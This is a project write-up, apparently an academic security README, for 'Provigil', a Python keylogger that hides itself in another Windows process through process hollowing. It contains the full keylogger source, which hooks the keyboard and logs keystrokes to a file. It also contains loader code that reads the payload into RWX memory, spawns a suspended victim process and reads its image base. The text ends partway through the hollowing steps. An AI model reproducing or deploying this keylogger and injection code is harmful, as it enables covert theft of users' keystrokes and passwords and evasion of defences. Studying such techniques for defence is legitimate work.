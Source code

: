 ```yaml
---
description: >-
  Academic security project in python on process injection for Windows 10 64 bit
  platform.
coverY: 0
---
```


# 💀 Provigil : Trivial keylogger with Process Hollowing

## Synopsis

Provigil is a simple keylogger wrote in python which uses process injection to hide it self. The Provigil project is split in two modules : the first one is **Provigil.py** which contains the keylogger and the second one is **ProLoader.py **whose purpose is to inject the keylogger (Provigil.py) into a process.

![Project architecture](<.gitbook/assets/image (1).png>)

There is differents techniques to inject malicious code into a victim process such as : _Extra Windows Memory injection, Classic DLL injection_, ect.. Provigil uses **Process Hollowing** technique. The latter consists to hollow out legitimate code from the target process' memory and replaces it with a malicious executable.

![Process Hollowing Injection](.gitbook/assets/process-injection-techniques-blogs-runpe.gif)

## Keylogger&#x20;

First, let's focus on **Provigil.py.**

```python
import pyWinhook as pyHook
import pythoncom, sys, logging


class KeyLogger:

    buffer = ""
    file_log = 'C:\\Users\toto\Documents\log.txt'

    def __init__(self):
        self.init_log()
        

    def init_log(self):
        logging.basicConfig(filename=self.file_log, level=logging.DEBUG, format='%(message)s')

    def KeyboardEvent(self, event):
        if event.Ascii == 13:
            logging.log(10, self.buffer)
            self.buffer = ""
        elif event.Ascii == 27:
            exit(0)
        else:
            self.buffer += chr(event.Ascii)
        return True

    def keyCapture(self):
        hooks_manager = pyHook.HookManager()
        hooks_manager.KeyDown = self.KeyboardEvent
        hooks_manager.HookKeyboard()
        pythoncom.PumpMessages()
```

## Step 1 : Load Keylogger Executable

The first step consists to load the Provigil keylogger executable in memory.&#x20;

The Windows API function call **CreateFileW **returns a handle that can be used to access the file. We use it to have different information about the file.

```python
hReplacement = HANDLE()
        hReplacement = windll.kernel32.CreateFileW(
        self.PAYLOAD_EXE,
        GENERIC_READ,
        FILE_SHARE_READ,
        0,
        OPEN_EXISTING,
        0,
        0)
        if (hReplacement == -1):
            logger.error(f"\tCreateFile error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Thanks to handler we can get the keylogger program size to allocate memory. I use the WinAPI function **VirtualAlloc **wich set automatically the memory initialized to zero. `allocated_adress `contains now the base address of the allocated region of pages.

```python
file_size = windll.kernel32.GetFileSize(hReplacement, 0)

allocated_address = windll.kernel32.VirtualAlloc(
            0,
            file_size,
            MEM_COMMIT | MEM_RESERVE,
            PAGE_EXECUTE_READWRITE,
        )
        if allocated_address == 0:
            logger.error(f"\tVirtualAlloc error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Then we call **ReadMemory **function to load the file at the address we previously allocated.

```python
totalNumberofBytesRead = DWORD()
if windll.kernel32.ReadFile(
    hReplacement, 
    LPVOID(allocated_address), 
    file_size, 
    byref(totalNumberofBytesRead), 
    0) == 0:
    logger.error(f"\tError when Reading malware: {FormatError(GetLastError())}")
    sys.exit(1)
windll.kernel32.CloseHandle(hReplacement)
```

### Check

Refering to the logs, keylogger process has been loaded at address `0x2e5149e0000 `

![ProLoader logs](<.gitbook/assets/image (3).png>)

We debug the process thanks WinDbg to inspect the memory. Thus, we can see that the process header is corretly load at the correponding address.

![ProLoader memory process](<.gitbook/assets/image (2).png>)

## Step 2 : Get Victim Process' Address

Now at this step, we have to spawn the victim process and get his base address.



Let's use **CreateProcessA **Windows function. It creates the victim process in suspended state also it fills the two data structures `startup_`_`info` and _`process_info`. Those structures will give precious informations for the next steps.

```python
startup_info = StartupInfo()
process_info = ProcessInfo()

if windll.kernel32.CreateProcessA(
                    None,
                    create_string_buffer(bytes(self.TARGET, encoding="ascii")),
                    None,
                    None,
                    False,
                    CREATE_SUSPENDED,
                    None,
                    None,
                    byref(self.startup_info),
                    byref(self.process_info),
        ) == 0:
            logger.error(f"\tCreateProcess {self.TARGET} error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Once the victim process created, we get  his thread context by using **GetThreadContext.**

```python
context = Context64()
self.context.ContextFlags = CONTEXT_FULL
if windll.kernel32.GetThreadContext(self.process_info.hThread, byref(self.context)) == 0:
            logger.error(f"\tError in GetThreadContext: {FormatError(GetLastError())}")
            sys.exit(1)
```

The `context` data structure give us registers value information about the current thread of the victim process. Security Researchers found that the **register Rdx** was pointing to a memory location. `16 bytes` after this location contains the address of the location of ImageBase. Knowing that, we uses **ReadProcessMemory **function to read** **the **register Rdx** wich give us the victim's image base.

```python
target_image_base = LPVOID()
if windll.kernel32.ReadProcessMemory(
                self.process_info.hProcess,
                LPCVOID(self.context.Rdx + 16),
                byref(target_image_base),
                8,
                None
        ) == 0:
            logger.error(f"\tError in ReadProcessMemory: {FormatError(GetLastError())}")
            sys.exit(1)
```

### Check

![ProLoader logs](<.gitbook/assets/image (6).png>)

We attach the debugger to the victim process created.

![WinDbg interface](<.gitbook/assets/debug step 3 (1).PNG>)

Inspecting the victim thread registers, we can see `ImageBaseAddress` in the PEB structure matching the Rdx register.

![Debug victim process](<.gitbook/assets/register (1).PNG>)
